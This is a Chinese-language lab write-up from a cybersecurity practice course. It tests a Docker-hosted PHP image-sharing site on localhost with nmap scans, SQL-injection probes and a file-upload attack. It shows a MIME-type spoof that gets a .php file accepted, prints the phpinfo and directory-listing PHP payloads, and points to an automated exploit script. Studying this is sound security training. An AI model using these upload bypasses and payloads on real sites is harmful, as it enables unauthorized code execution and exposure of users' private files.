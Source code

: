 # BreakIt过程详解

## 实验环境

* VMware16pro
* linux kali22.1
* docker

## 工具使用

* burpsuite v2022.7.1

## 环境搭建

```bash
# 使用docker快速部署
$ git clone https://github.com/Vir-Dominary/2022-Cybersecurity-Practices.git
$ cd 2022-Cybersecurity-Practices

# 切换到相应分支（后续合并到主目录时还需更改）
$ git checkout docker-byzfd 

# 注意普通用户没有运行docker容器的权限，把普通用户加入到docker组中
$ sudo gpasswd -a $USER docker 
$ newgrp docker

$ docker-compose up -d
```

![1659619450571](img/1659619450571.png)

搭建完毕以后访问 ``127.0.0.1``应用环境，如下图所示：

![1659619559733](img/1659619559733.png)

## 信息收集

### 端口扫描

```bash
# Intense scan
$ nmap -T4 -A -v 127.0.0.1

Discovered open port 80/tcp on 127.0.0.1
Discovered open port 3306/tcp on 127.0.0.1
Discovered open port 443/tcp on 127.0.0.1
Discovered open port 9000/tcp on 127.0.0.1

PORT     STATE SERVICE     VERSION
80/tcp   open  http        nginx 1.19.2
|_http-title: \xE5\x8D\xB3\xE5\x88\xBB\xE4\xBC\xA0\xE5\x9B\xBE
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.19.2

443/tcp  open  tcpwrapped

3306/tcp open  mysql       MySQL 5.7.39
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.39
|   Thread ID: 23
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, IgnoreSpaceBeforeParenthesis, LongColumnFlag, InteractiveClient, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, SupportsTransactions, Speaks41ProtocolNew, IgnoreSigpipes, ConnectWithDatabase, SupportsCompression, LongPassword, ODBCClient, DontAllowDatabaseTableColumn, FoundRows, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: s>\x0F\x0Ek&?OkmUU#9XrY{Ws
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.39_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_5.7.39_Auto_Generated_CA_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-04T13:16:15
| Not valid after:  2032-08-01T13:16:15
| MD5:   a793 adda 1076 1749 7faf 0c69 6439 26eb
|_SHA-1: 72ae 19b0 fc2a 9e6d a7c2 e680 dbeb a4df d0cd bfe8
9000/tcp open  cslistener?

Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Uptime guess: 38.279 days (since Mon Jun 27 18:35:01 2022)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

```

扫描得到4个开放端口的信息：80(http nginx 1.19.2),443(https),3306(mysql 5.7.39),9000(cslistener)，以及主机操作系统(linux_kernel:2.6.32)等信息。

### 使用体验

![1660027048421](img/1660027048421.png)

注册需要提交密保问题和答案，便于在忘记密码时重置密码（如下图）：

![1660027146785](img/1660027146785.png)

注册成功后会跳转到登录页面，登陆以后会跳转到网站首页。

首页既是用户的主页，提供登出和修改密码的功能；同时也是网站的主页，展示不同用户分享的图片。如下图所示：

![1660027464080](img/1660027464080.png)

## 可能的漏洞分析

### 强制访问控制

网站主页的路径为/php/home.php，大胆猜想php的文件都放在php这个文件夹内。尝试在未登录条件下访问主页，会强制弹回登陆页面。

用户上传的图片链接形如 ``http://127.0.0.1:8088/image/diemandcarpe/1.jpg``，直接说明用户上传的图片都在服务器的 ``image``文件夹下名为用户id的子目录下，在未登录条件下可以直接访问到这一图片，由于本就是公开图片，所以不存在安全问题。尝试访问 ``image``下的用户目录以查看不公开图片，发现是不行的。

### SQL注入

尝试加入 ``'`` ，``AND``，``OR``等sql标识符，提交以后网站返回的信息均是用户名或密码错误。猜测后端对这些字符进行了转义。

### 文件上传漏洞

尝试上传一个php文件，得到的结果如下图所示：

![1660096613632](img/1660096613632.png)

很显然这是一个后端发出的消息，且前端看起来并没有限制文件类型。

不确定是否启用了后台白名单，如果是的话，这个漏洞也是无法利用的了。

burpsuite抓包，部分字段值如下：

```js
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php
phpinfo()
?>
```

只能先把MIME修改：

```js
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php
phpinfo()
?>
```

发送以后发现竟然提交成功了。

直接在主页找到这一文件的路径：``http://127.0.0.1:8088/image/diemandcarpe/1.php``

php代码执行成功：

![1660097376206](img/1660097376206.png)

接下来对漏洞利用具体化，通过上传一个遍历文件夹内文件的可执行文件，获取各用户所上传图片的文件名，从而实现强制访问控制。

编写的可执行程序如下：

```php
<?php
function tree($directory)

{

    $mydir=dir($directory);

    while($file=$mydir->read()){

        if((is_dir("$directory/$file")) AND ($file!=".") AND ($file!=".."))

        {

            echo "$file\n";

            tree("$directory/$file");

    } else

    echo "$file\n";

    }

    echo "\n";

    $mydir->close();

}

tree("../");
?>
```

以同样方式上传以后，访问得到：

![1660105192610](img/1660105192610.png)

至此漏洞利用完成。

# 自动化漏洞利用脚本EXP

详见[exp.py](./exp.py)

其所依赖的环境详见[requirements.txt](./requirements.txt)

